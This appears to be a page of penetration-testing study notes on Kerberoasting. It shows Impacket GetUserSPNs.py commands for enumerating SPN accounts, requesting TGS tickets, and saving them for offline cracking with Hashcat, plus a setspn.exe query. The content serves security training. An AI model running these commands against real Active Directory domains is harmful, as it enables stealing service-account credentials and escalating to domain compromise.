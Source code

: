 Obtaining a TGS ticket via Kerberoasting does not guarantee you a set of valid credentials, and the ticket must still be cracked offline with a tool such as Hashcat to obtain the cleartext password. TGS tickets take longer to crack than other formats such as NTLM hashes, so often, unless a weak password is set, it can be difficult or impossible to obtain the cleartext using a standard cracking rig.

#### Kerberoasting with GetUserSPNs.py
`A prerequisite to performing Kerberoasting attacks is either domain user credentials (cleartext or just an NTLM hash if using Impacket), a shell in the context of a domain user, or account such as SYSTEM. Once we have this level of access, we can start. We must also know which host in the domain is a Domain Controller so we can query it.`

We can start by just gathering a listing of SPNs in the domain. To do this, we will need a set of valid domain credentials and the IP address of a Domain Controller. We can authenticate to the Domain Controller with a cleartext password, NT password hash, or even a Kerberos ticket. For our purposes, we will use a password. Entering the below command will generate a credential prompt and then a nicely formatted listing of all SPN accounts. From the output below, we can see that several accounts are members of the Domain Admins group. If we can retrieve and crack one of these tickets, it could lead to domain compromise. It is always worth investigating the group membership of all accounts because we may find an account with an easy-to-crack ticket that can help us further our goal of moving laterally/vertically in the target domain.


```bash
# Listing SPN Accounts with GetUserSPNs.py
$ GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME>

"""
We can now pull all TGS tickets for offline processing using the -request flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts.
"""
# Requesting all TGS Tickets
$ GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -request

"""
We can also be more targeted and request just the TGS ticket for a specific account. Let's try requesting one for just the sqldev account.
"""
# Requesting a Single TGS ticket
$ GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -request-user <DC_USER>

# Saving the TGS Ticket to an Output File
$ GetUserSPNs.py -dc-ip <DC_IP> <DOMAIN.FULL>/<USERNAME> -request-user <DC_USER> -outputfile <FILENAME>
```

### Windows
#### Kerberoasting - Semi Manual method
##### Enumerating SPNs with setspn.exe
```
> setspn.exe -Q */*
``` 
